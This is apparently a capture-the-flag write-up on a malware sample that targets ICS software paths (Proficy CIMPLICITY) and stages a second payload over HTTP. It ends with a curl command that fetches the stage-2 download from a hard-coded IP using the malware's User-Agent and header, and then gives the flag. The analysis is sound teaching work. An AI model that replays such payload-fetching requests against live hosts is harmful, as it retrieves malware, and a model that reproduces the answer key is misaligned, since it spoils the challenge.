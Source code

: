 Intended solve:

- Running `strings` against the binary reveals the following functionality:
    - Reconnaissance: Checks for specific paths related to ICS software
    - Payload staging via HTTP: Imports sed

```
WinHttpConnect
WinHttpSendRequest
WinHttpCloseHandle
WinHttpOpenRequest
WinHttpQueryHeaders
WinHttpAddRequestHeaders
WinHttpOpen
WinHttpReceiveResponse
WINHTTP.dll
...
C:\Program Files (x86)\Proficy\Proficy CIMPLICITY
C:\Program Files\Proficy\Proficy CIMPLICITY
GET
```

- Additional strings give hints at campaign coding to download a stage 2 payload from an IP:

```
13.60.135.243
Arrakis/0.2
Stage2: GreenWillow.iso
```

- Opening in disassembler will confirm `WinHttpOpen` and `WinHttpAddRequestHeaders` use the above strings as the User-Agent and custom header, respectively
- Replicating the HTTP request to the IP `13.60.135.243` in the headers (following redirects)
- Example command for flag: 

```console
$ curl -vL -A "Arrakis/0.2" -H "Stage2: GreenWillow.iso" http://13.60.135.243
```

- Flag: `flag{gru_74455_b4ck_4t_1t_aga1n_37a6d}`

